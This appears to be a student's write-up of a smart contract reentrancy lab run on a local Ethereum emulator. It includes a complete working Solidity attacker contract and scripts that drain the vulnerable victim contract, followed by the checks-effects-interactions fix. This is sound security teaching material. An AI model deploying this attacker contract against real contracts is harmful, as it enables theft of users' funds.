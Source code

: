 # Smart Contract Reentrancy Attack Lab

## Lab Setup
- use emulator `Labsetup/emulator/output-small`
- install `web3` module for Python `$ pip3 install web3==5.31.1`

## Task 1: Getting Familiar with the Victim Smart Contract
- `ReentrancyVictim.sol`
    - it maintains the `balances` (`mapping (address => uint)`) of each address that deposit ether in it
    - users can deposit or withdraw ether
    - the vulnerability is that in the `withdraw()` function, it invokes `msg.sender.call{value: _amount}("")` first, then deduct `balances[msg.sender]`, a reentrancy attack can be launched here
### Task 1.a: Compiling the Contract
- in the newer version of Solidity, countermeasures are implemented. Therefore, compile the code using Version 0.6.8, which is an older version. The compiler `solc-0.6.8`
    - `$ solc-0.6.8 --overwrite --abi --bin -o . ReentrancyVictim.sol`
- 2 files is generated
    - `ReentrancyVictim.bin`: the bytecode of the contract, will be stored to the blockchain after the contract is deployed
    - `ReentrancyVictim.abi`: ABI stands for Application Binary Interface, the `abi` file contains the API information of the contract, it is needed when we need to interact with a contract, so we know the name of the functions, their parameters and return values
### Task 1.b: Deploying the Victim Contract
- `deploy_victim_contract.py`
    ```
    abi_file = "../contract/ReentrancyVictim.abi"
    bin_file = "../contract/ReentrancyVictim.bin"

    web3 = SEEDWeb3.connect_to_geth_poa('http://10.150.0.71:8545')

    # Unlock the account, and deploy the smart contract
    sender_account = web3.eth.accounts[1]
    web3.geth.personal.unlockAccount(sender_account, "admin")
    addr = SEEDWeb3.deploy_contract(web3, sender_account, abi_file, bin_file, None)

    print("Victim contract: {}".format(addr))
    with open("contract_address_victim.txt", "w") as fd:
        fd.write(addr)
    ```
    - the actual code that deploy the contract is in `SEEDWeb3.py`
        ```
        contract = web3.eth.contract(abi=abi, bytecode=bytecode)
        contract.constructor(...).transact({'from': sender_account})
        ```
- deploy
    ```
    $ ./deploy_victim_contract.py 
    Sending tx ...
    ---------Deploying Contract ----------------
    ... Waiting for block
    Transaction Hash: 0xfc74c28ab1e52b998e77748bde5339eda95f4a8a0b21ef81d2688e16062d0c91
    Transaction Receipt: ...
    Victim contract: 0xaf98236bcb084ADc949f43d647eb4045260b31F3
    ```
### Task 1.c: Interacting with the Victim Contract
- deposit money to this contract using `fund_victim_contract.py`
    ```
    abi_file    = '../contract/ReentrancyVictim.abi'
    victim_addr = '0xaf98236bcb084ADc949f43d647eb4045260b31F3'
    amount      = 10 # unit: ether
    ...
    ```
- run the code
    ```
    $ ./fund_victim_contract.py 
    Transaction sent, waiting for the block ...
    Transaction Receipt: ...
    ----------------------------------------------------------
    == My balance inside the contract:
    0xA403f63AD02a557D5DDCBD5F5af9A7627C591034: 10000000000000000000
    == Smart Contract total balance:
    0xaf98236bcb084ADc949f43d647eb4045260b31F3: 10000000000000000000
    ----------------------------------------------------------
    ```

- run the code again to deposit another `20 ETH`, and run `withdraw_from_victim_contract.py` to withdraw `5 ETH`
    ```
    == My balance inside the contract:
    0xA403f63AD02a557D5DDCBD5F5af9A7627C591034: 30000000000000000000
    == Smart Contract total balance:
    0xaf98236bcb084ADc949f43d647eb4045260b31F3: 30000000000000000000
    ```
    ```
    == My balance inside the contract:
    0xA403f63AD02a557D5DDCBD5F5af9A7627C591034: 25000000000000000000
    == Smart Contract total balance:
    0xaf98236bcb084ADc949f43d647eb4045260b31F3: 25000000000000000000
    ```

## Task 2: The Attacking Contract
- the attack contract `ReentrancyAttacker.sol`
    ```
    //SPDX-License-Identifier: MIT
    pragma solidity ^0.6.8
    import "./ReentrancyVictim.sol";

    contract ReentrancyAttacker {
        ReentrancyVictim public victim;
        address payable _owner;

        constructor(address payable _addr) public {
            victim = ReentrancyVictim(_addr);
            _owner = payable(msg.sender);
        }

        fallback() external payable {
            if(address(victim).balance >= 1 ether) {
                victim.withdraw(1 ether);
            }
        }

        function attack() external payable {
            require(msg.value >= 1 ether, "You need to send one ether when attacking");

            victim.deposit{value: 1 ether}();
            victim.withdraw(1 ether);
        }
    }
    ```
    - When invoking withdraw() in victim, the victim send ether to attacker, and invokes attacker's fallback(), as long as the balance of the victim is not less than 1 ether, the fallback() function will invoke withdraw() repeatedly
    - the invocation chain: withdraw() --> fallback() --> withdraw() --> fallback() --> ...
- deploy attacker contract, we need to modify `deploy_attack_contract.py` to pass the address of the victim contract to the attacker contract
    ```
    $ ./deploy_attack_contract.py 
    ---------Deploying Contract ----------------
    ... Waiting for block
    Transaction Hash: 0xda16d5f650e0d1c87fd70572e584673d66d0ee1f4ead86247cb5354e5760bd9a
    Transaction Receipt: ...
    Attack contract: 0x758a1930B1a2350F446f81f39E4D2E8e010227A2
    ```

## Task 3: Launching the Reentrancy Attack
- all we need to do is to invoke the `attack()` function in the attack contract, and send the attack contract more at least `1 ETH`
- one thing important is that in this emulator, there is no gas fee, if there is, we need to send more than `1 ETH` to the attack contract to ensure that there is sufficient gas for the attack
- result
    ```
    $ ./launch_attack.py 
    Transaction sent, waiting for block ...
    Transaction Receipt: ...
    $ ./get_balance.py 
    ----------------------------------------------------------
    *** This client program connects to 10.151.0.71:8545
    *** The following are the accounts on this Ethereum node
    0x8c400205fDb103431F6aC7409655ad3cf8f6d007: 32000314325000000000
    0x9105A373ce1d01B517aA54205A5E4c70FA9f34Fe: 5499999999999999999998999360248995521743
    ----------------------------------------------------------
    Victim: 0xaf98236bcb084ADc949f43d647eb4045260b31F3: 0
    Attacker: 0x758a1930B1a2350F446f81f39E4D2E8e010227A2: 26000000000000000000
    ```
    - the attack contract withdraw all money from the victim contract
- cashout (withdraw money from attack contract to `eth.accounts[0]` on node `10.151.0.71`)
    - check the balance before cashout
    ```
    > eth.getBalance(eth.accounts[0])
    32000314325000000000
    ```
    - cashout
    ```
    $ ./cashout.py 
    Transaction sent, waiting for block ...
    Transaction Receipt: ...
    ```
    - check balance again
    ```
    > eth.getBalance(eth.accounts[0])
    58000314325000000000
    ```

## Task 4: Countermeasures
- there are a number of common techniques to avoid potential reentracy vulnerabilities in smart contracts
- one approach is to ensure that all logic that changes state variables happens before ether is sent out of the contract (or any external call). It's a good practice for any code that performs external calls to unknown addresses to be the last operation in a localized function or piece of code execution, this is known as the *checks-effects-interactions* pattern
- fix `ReentrancyVictim.sol`
    ```
    function withdraw(uint _amount) public {
        // Modify state variables
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        total_amount -= _amount;

        // Send ether
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether!");
    }
    ```
- besides, newer versions have built-in protection against the reentrancy attack. However, not enough details are given in the documentation, here is a discussion found from [the Ethereum GitHub repository](https://github.com/ethereum/solidity/issues/12996)
